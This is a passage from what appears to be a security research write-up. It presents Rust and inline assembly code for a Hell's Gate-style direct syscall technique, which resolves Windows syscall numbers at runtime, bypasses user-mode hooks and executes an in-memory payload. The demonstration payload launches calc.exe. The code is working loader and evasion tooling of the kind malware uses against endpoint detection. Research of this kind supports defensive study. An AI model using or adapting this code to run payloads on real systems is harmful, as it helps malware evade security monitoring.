            return Some((extract_syscall_number(func_address, idx as isize * DOWN) - idx) as u32);  
        }  
        if check_syscall_bytes(func_address, idx as isize * UP) {  
            return Some((extract_syscall_number(func_address, idx as isize * UP) + idx) as u32);  
        }  
    }  
    None  
}  
  
/// Checks if the bytes at the given offset match the syscall pattern.  
///  
/// # Arguments  
/// * `address` - A pointer to the address to check./// * `offset` - The offset to apply to the address.///  
/// # Returns  
/// * `true` if the bytes match the syscall pattern, `false` otherwise.unsafe fn check_syscall_bytes(address: *const u8, offset: isize) -> bool {  
    // First opcodes should be :  
    //    MOV R10, RCX    //    MOV EAX, <syscall>    *address.offset(offset) == 0x4C  
        && *address.offset(1 + offset) == 0x8B  
        && *address.offset(2 + offset) == 0xD1  
        && *address.offset(3 + offset) == 0xB8  
        && *address.offset(6 + offset) == 0x00  
        && *address.offset(7 + offset) == 0x00  
}  
  
/// Extracts the syscall number from the bytes at the given offset.  
///  
/// # Arguments  
/// * `address` - A pointer to the address to extract from./// * `offset` - The offset to apply to the address.///  
/// # Returns  
/// * The extracted syscall number as `u16`.  
unsafe fn extract_syscall_number(address: *const u8, offset: isize) -> u16 {  
    let high = *address.offset(5 + offset);  
    let low = *address.offset(4 + offset);  
    ((high as u16) << 8) | low as u16  
}  
  
unsafe fn search_syscall_in_cache(hash: u32) -> Option<NtSyscall> {  
    SYSCALL_CACHE.iter().find(|&syscall| syscall.dw_syscall_hash == hash).cloned()  
}  
  
#[cfg(test)]  
mod tests {  
    use super::*;  
    use hooking;  
    use hooking::{Hook, install_hook, remove_hook};  
  
    #[test]  
    fn test_fetch_nt_syscall() {  
  
        let nt_create_thread_ex_crc32: u32 = 0xe2083cd5;  
  
        let result = unsafe {  
            fetch_nt_syscall(nt_create_thread_ex_crc32)  
        };  
  
        let nt_create_thread_syscall = match result {  
            Ok(v) => v,  
            Err(e) => {  
                panic!("[!] nt_create_thread_syscall Failed With Error: {}", e)  
            }  
        };  
  
        // Check the result and values against Windows 11 version 23H2  
        assert_eq!(nt_create_thread_syscall.dw_syscall_hash, 0xe2083cd5);  
        assert_eq!(nt_create_thread_syscall.dw_ssn, 0x00c7);  
        assert!(!nt_create_thread_syscall.p_syscall_address.is_null());  
    }  
  
    #[test]  
    // Command to build to debug in x64dbg  
    // cargo test --color=always --package syscalls --lib hells_gate::tests::test_hook_nt_query_system_time --no-run -- --exact    fn test_hook_nt_query_system_time() {  
  
        let nt_query_system_time_crc32: u32 = 0x296c29b1;  
  
        let result_before = unsafe { fetch_nt_syscall(nt_query_system_time_crc32) };  
  
        let nt_query_system_time_syscall = match result_before {  
            Ok(v) => v,  
            Err(e) => {  
                panic!("[!] nt_query_system_time_syscall Failed With Error: {}", e)  
            }  
        };  
  
        assert_eq!(nt_query_system_time_syscall.dw_syscall_hash, 0x296c29b1);  
        assert_eq!(nt_query_system_time_syscall.dw_ssn, 0x005a);  
        assert!(!nt_query_system_time_syscall.p_syscall_address.is_null());  
  
        let function_to_hook = nt_query_system_time_syscall.p_syscall_address as *const u8;  
        let function_to_run = 12345678 as *const u8;  
  
        // Create the hook  
        let hook = unsafe { Hook::new(function_to_hook, function_to_run).expect("Hook failed")};  
  
        install_hook(&hook);  
        let result_after = unsafe {  
            fetch_nt_syscall(nt_query_system_time_crc32)  
        };  
  
        let nt_query_system_time_syscall_after_hook = match result_after {  
            Ok(v) => {  
                remove_hook(hook);  
                v  
            },  
            Err(e) => {  
                remove_hook(hook);  
                panic!("[!] nt_query_system_time_syscall Failed: {}", e)  
            }  
        };  
  
        assert_eq!(nt_query_system_time_syscall_after_hook.dw_syscall_hash, nt_query_system_time_syscall.dw_syscall_hash);  
        assert_eq!(nt_query_system_time_syscall_after_hook.dw_ssn, nt_query_system_time_syscall.dw_ssn);  
        assert!(!nt_query_system_time_syscall_after_hook.p_syscall_address.is_null());  
    }  
}
```

### asm.rs
``` rust
#![feature(global_asm)]  
  
use std::arch::global_asm;  
  
#[cfg(target_arch = "x86_64")]  
global_asm!(  
    ".intel_syntax noprefix",  
    ".data",  
    "wSystemCall: .long 0x0000",  
  
    ".text",  
    ".global set_ssn",  
    "set_ssn:",  
    "    xor eax, eax",  
    "    mov DWORD PTR wSystemCall[rip], eax",  
    "    mov eax, ecx",  
    "    mov r8d, eax",  
    "    mov DWORD PTR wSystemCall[rip], r8d",  
    "    ret",  
  
    ".global run_direct_syscall",  
    "run_direct_syscall:",  
    "    xor r10, r10",                 // r10 = 0  
    "    mov rax, rcx",                 // rax = rcx  
    "    mov r10, rax",                 // r10 = rax = rcx  
    "    mov eax, DWORD PTR wSystemCall[rip]",  // eax = ssn  
    "    jmp run",                      // execute 'Run'  
    "    xor eax, eax",                 // won't run  
    "    xor rcx, rcx",                 // won't run  
    "    shl r10, 2",                   // won't run  
    "run:",  
    "    syscall",                      // syscall  
    "    ret"  
  
);  
  
extern "C" {  
    pub fn set_ssn(ssn: usize);  
    pub fn run_direct_syscall(...) -> usize;  
}  
  
#[cfg(test)]  
mod private_tests {  
    use super::*;  
  
    #[test]  
    fn test_set_ssn() {  
        unsafe { set_ssn(0x18); }  
    }  
}
```


## Results

The first step is to allocate memory to copy our payload to. We achieve this calling the `NtAllocateVirtualMemory` function. Once called, the memory address is printed through the console: 



Then we change the memory permissions calling `NtProtectVirtualMemory`, a function that enables us to add the Execution flag to that memory section.



Now is all prepared to spawn a new local thread with that memory address containing the payload as its starting point.



Then we just activate the thread, who executes the payload starting the calc.exe process. Once executed, the thread terminates and our program finishes. Note that calc.exe is a new process and therefore it will remain alive with svchost.exe as its parent process.

 


## References 
- [\[1\]](https://www.infosecinstitute.com/resources/hacking/hooking-system-service-dispatch-table-ssdt/) System Service Descriptor Table Hooking
- [\[2\]](https://synzack.github.io/Blinding-EDR-On-Windows/#windows-drivers) Drivers and Kernel Callbacks in the security context
- [\[3\]](https://learn.microsoft.com/en-us/windows-hardware/drivers/kernel/callback-objects) Windows Callback objects

